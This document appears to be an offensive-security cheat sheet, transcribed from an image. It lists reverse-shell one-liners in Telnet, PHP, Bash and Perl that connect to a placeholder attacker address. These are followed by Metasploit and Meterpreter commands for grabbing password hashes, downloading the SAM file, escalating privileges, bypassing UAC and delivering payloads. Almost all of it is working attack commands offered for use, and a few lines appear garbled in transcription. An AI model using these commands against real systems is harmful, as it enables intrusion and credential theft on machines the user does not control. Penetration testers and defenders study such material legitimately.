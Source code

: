 Telnet Reverse Shell

    rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
    telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

PHP

    php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
Bash

    exec /bin/bash 0&0 2>&0
    0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
    exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
    or: while read line 0<&5; do $line 2>&5 >&5; done
    bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1

Perl

    exec "/bin/sh";
    perl —e 'exec "/bin/sh";'
    perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' // Windows
    perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' //  Windows

Meterpreter
Windows reverse meterpreter payload

    set payload windows/meterpreter/reverse_tcp // Windows reverse tcp payload

Windows VNC Meterpreter payload

    set payload windows/vncinject/reverse_tcp // Meterpreter Windows VNC Payload
    set ViewOnly false

Linux Reverse Meterpreter payload

    set payload linux/meterpreter/reverse_tcp // Meterpreter Linux Reverse Payload

Meterpreter Cheat Sheet

    upload file c:\\windows // Meterpreter upload file to Windows target
    download c:\\windows\\repair\\sam /tmp // Meterpreter download file from Windows target
    download c:\\windows\\repair\\sam /tmp // Meterpreter download file from Windows target
    execute -f c:\\windows\temp\exploit.exe // Meterpreter run .exe on target – handy for executing uploaded exploits
    execute -f cmd -c //  Creates new channel with cmd shell
    ps // Meterpreter show processes
    shell // Meterpreter get shell on the target
    getsystem // Meterpreter attempts priviledge escalation the target
    hashdump // Meterpreter attempts to dump the hashes on the target
    portfwd add –l 3389 –p 3389 –r target // Meterpreter create port forward to target machine
    portfwd delete –l 3389 –p 3389 –r target // Meterpreter delete port forward
    use exploit/windows/local/bypassuac // Bypass UAC on Windows 7 + Set target + arch, x86/64
    use auxiliary/scanner/http/dir_scanner // Metasploit HTTP directory scanner
    use auxiliary/scanner/http/jboss_vulnscan // Metasploit JBOSS vulnerability scanner
    use auxiliary/scanner/mssql/mssql_login // Metasploit MSSQL Credential Scanner
    use auxiliary/scanner/mysql/mysql_version // Metasploit MSSQL Version Scanner
    use auxiliary/scanner/oracle/oracle_login //  Metasploit Oracle Login Module
    use exploit/multi/script/web_delivery // Metasploit powershell payload delivery module
    post/windows/manage/powershell/exec_powershell // Metasploit upload and run powershell script through a session
    use exploit/multi/http/jboss_maindeployer // Metasploit JBOSS deploy
    use exploit/windows/mssql/mssql_payload // Metasploit MSSQL payload